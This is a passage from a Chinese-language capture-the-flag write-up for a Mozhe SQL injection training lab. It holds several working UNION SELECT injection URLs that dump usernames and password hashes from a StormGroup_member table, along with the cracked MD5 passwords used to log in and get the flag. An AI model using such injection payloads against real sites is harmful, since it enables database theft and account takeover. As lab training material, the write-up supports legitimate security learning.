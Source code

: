 ```sql
http://219.153.49.228:49521/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member limit 0,1
```
![](https://gitee.com/YatJay/image/raw/master/img/202201291210870.png)
```sql
http://219.153.49.228:49521/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member limit 1,1
```
![](https://gitee.com/YatJay/image/raw/master/img/202201291209625.png)
```sql
http://219.153.49.228:49521/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member limit 2,1
```
![](https://gitee.com/YatJay/image/raw/master/img/202201291210927.png)这就说明数据库`mozhe_Discuz_StormGroup`中的表`StormGroup_member`中只有2条数据，其用户名和密码如下：

| id   | name  | password                                       | status |
| ---- | ----- | ---------------------------------------------- | ------ |
| ……   | mozhe | 356f589a7df439f6f744ff19bb8092c0  解密：dsan13 | ……     |
| ……   | mozhe | e88c63a5c7b6fa8e5055ad185755a8dc 解密：176387  | ……     |

对查到的密码进行MD5解密后尝试登录：

第一个用户被禁用：

![](https://gitee.com/YatJay/image/raw/master/img/202201291215472.png)

第二个用户成功登录并拿到flag：

![](https://gitee.com/YatJay/image/raw/master/img/202201291216542.png)

# 涉及资源

- https://github.com/Audi-1/sqli-labs
- 忍者安全测试系统-禁用软盘安装
- https://www.mozhe.cn/bug/detail/elRHc1BCd2VlIckQxbjduMG9BVCtkZz09bW96aGUmozhe
